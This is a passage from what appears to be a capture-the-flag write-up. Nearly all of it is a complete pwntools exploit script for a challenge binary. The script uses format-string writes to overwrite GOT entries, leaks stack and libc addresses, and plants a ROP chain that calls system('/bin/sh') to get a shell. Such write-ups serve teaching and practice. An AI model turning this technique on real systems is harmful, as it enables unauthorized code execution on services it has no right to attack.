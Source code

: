 And this is full payload for method 2

```py
def method2():

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)

    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")
```
